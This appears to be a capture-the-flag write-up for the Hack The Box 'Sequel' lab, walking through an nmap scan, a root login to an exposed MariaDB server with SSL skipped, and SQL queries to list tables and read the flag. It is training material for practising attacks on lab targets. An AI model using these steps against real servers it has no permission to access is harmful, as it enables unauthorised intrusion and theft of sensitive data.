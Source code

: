 # MariaDB Exploitation (HTB Sequel)

## Steps

### 1. Scan the target IP for open ports and services
```bash
nmap -sV -sC 10.129.191.64
````

### 2. Identify MariaDB Service

* Port `3306` is open and running **MariaDB** service.

### 3. Connect to the MariaDB Server

```bash
mysql -u root -h 10.129.191.64 -p --skip-ssl
```

* `-u root` → Username (root)
* `-h 10.129.191.64` → Host IP
* `-p` → Prompt for password
* `--skip-ssl` → Disable SSL for connection

### 4. Explore the Database

Once connected:

```sql
SHOW DATABASES;                  -- List all databases
USE {database_name};              -- Select a database
SHOW TABLES;                      -- List tables in the current database
SELECT * FROM {table_name};       -- View all data in a table
```

### 5. Retrieve the Flag

From the accessible tables, extract the flag or any sensitive data:

```sql
SELECT * FROM flag_table;
```
